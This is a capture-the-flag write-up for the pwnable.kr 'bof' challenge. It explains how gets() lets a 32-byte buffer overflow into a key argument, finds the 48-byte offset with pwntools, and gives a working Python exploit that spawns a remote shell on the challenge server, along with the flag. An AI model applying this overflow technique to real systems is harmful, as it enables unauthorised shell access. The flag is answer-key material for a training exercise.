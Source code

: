 
# PWNABLE.KR - bof



### Description:
>Nana told me that buffer overflow is one of the most common software vulnerability. 
>Is that true?

>Download : http://pwnable.kr/bin/bof
>Download : http://pwnable.kr/bin/bof.c

>Running at : nc pwnable.kr 9000


### Reconnaissance / Code Analysis:

```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

#### The `main` function does not do much except calling the `func` function, so we will move on to the `func` function:

```C
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
```

We have a 32 bytes buffer named `overflowme` and a `gets` function to read in our input. `Gets` is particularly dangerous as it can not detect the end of available memory and can be vulnerable to `buffer overflow` attack .

#### Therefore, our main objective is to overflow the buffer to replace `key` with `0xcafebabe` so that we can use the shell.



### Solution
#### In order to perform a buffer overflow attack, we need to know the offset from which our target (`key` variable) will be overflowed.

When disassembling the `func` function, we can notice a `cmp` function:

![func disassemble](https://github.com/Catcurity123/CTF/blob/main/picture/1.png)

#### Therefore, we just need to place a break point at this function to examine the location and value of `ebp + 8` to find the offset to overflow.
To make our work even easier, `pwntools` offers cyclic to find offset way faster:

```
cyclic 64
>aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa
```
We can then examine our stack to find the location of `key`:

![offset](https://github.com/Catcurity123/CTF/blob/main/picture/2.png)

We can see that `ebp + 8` is at `oxffffcff0`, that is the location we want to overflow. In order to find the exact number, `pwntools` also support `unhex` and `cyclic -l`:

![exact number](https://github.com/Catcurity123/CTF/blob/main/picture/3.png)

#### Therefore, our offset is 48 and the value we want to insert is `\xbe\xba\xfe\xca`:

To enter the bash on the server, we can use `pwntools` once again:

```python
from pwn import *

padding = "A" * 48
key = "\xbe\xba\xfe\xca"
payload = padding + key

shell = remote('pwnable.kr',9000)
shell.send(payload)
shell.interactive()

```

#### Finally, we have our output as follows:

![result](https://github.com/Catcurity123/CTF/blob/main/picture/4.png)
## Flag

```
daddy, I just pwned a buFFer :)

```
